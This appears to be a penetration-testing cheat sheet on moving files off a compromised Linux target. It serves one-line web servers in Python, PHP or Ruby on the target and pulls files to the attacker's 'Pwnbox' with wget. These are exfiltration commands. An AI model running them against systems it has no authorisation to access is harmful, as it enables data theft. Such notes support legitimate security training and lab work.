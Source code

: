 
When you need a **fast, no-frills way** to transfer files from a **compromised machine (target)** to your **attacker box (Pwnbox)**, Linux often has built-in tools to make it easy.

---

## **1. Start a Web Server on the Target Machine**

### **A. Python 3**

If Python 3 is installed on the **target**:

```bash
python3 -m http.server
```

Output:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

---

### **B. Python 2.7 (Legacy)**

If Python 2 is installed:

```bash
python2.7 -m SimpleHTTPServer
```

---

### **C. PHP**

If PHP is installed:

```bash
php -S 0.0.0.0:8000
```

Output:

```
PHP Development Server started at http://0.0.0.0:8000
```

---

### **D. Ruby**

If Ruby is installed:

```bash
ruby -run -ehttpd . -p8000
```

Output:

```
WEBrick HTTPServer running on port 8000
```

---

## **2. Download the File (Attacker Machine)**

On your **attacker (Pwnbox)**, pull the file:

```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

Output:

```
Saving to: 'filetotransfer.txt'
filetotransfer.txt saved [0/0]
```

---

## **3. Notes**

- These methods are **download-only**: they let you pull files **from the target to your machine**, not upload to the target.
    
- Make sure port **8000** (or whichever you use) is **reachable**; firewalls may block inbound connections.
    
- Change the port if 8000 is in use:
    

```bash
python3 -m http.server 9001
```
